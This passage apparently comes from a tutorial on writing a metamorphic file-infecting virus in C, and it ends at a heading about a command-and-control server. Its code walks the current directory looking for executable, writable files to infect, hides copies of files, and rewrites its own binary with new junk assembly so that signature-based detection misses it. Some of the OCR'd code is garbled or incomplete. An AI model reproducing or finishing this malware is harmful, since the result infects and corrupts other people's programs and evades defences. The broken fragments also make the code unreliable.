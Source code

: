 ```c
    hide_file("cp %s .one_%s", filename);    
    execute_bash("chmod +x %s",filename);

    write_file(file_data, file_len,  filename);           

}
Lists files in passed in directory path
void propagate(const char *path, const char *exclude) 
{
	JUNK_ASM;

DIR *dir;
struct dirent *ent;

// Open directory stream
dir = opendir ("./"); 
if (dir != NULL) {

// Iterate over all files in the current directory
while ((ent = readdir (dir)) != NULL) {
// Select regular files only, not DT_DIR (directories) nor DT_LNK (links)
if (ent->d_type == DT_REG)
{
// Select executable and writable files that can be infected
if (access(ent->d_name, X_OK) == 0 && access(ent->d_name, W_OK) == 0)
{
// Ignore the executable that is running the program
if (strstr(exclude, ent->d_name) != NULL)
{
original_executable = ent->d_name; 
	}
}

```
Main Function
Finally we have the main function. This just calls the functions previously described. We read in the code, replace the junk, then write it out again. The argv[0] argument contains the application filename.

```c
int main(int argc, char* argv[]) {

JUNK_ASM;

// Load this file into memory
uint8_t *file_data = NULL;
uint32_t file_len;

load_file(&file_data, &file_len, argv[0]);

// Replace the existing junk ASM sequences with new ones
replace_junk(file_data, file_len);

write_file(file_data, file_len, argv[0]);


free(file_data);
return EXIT_SUCCESS;

```
The C2 Server
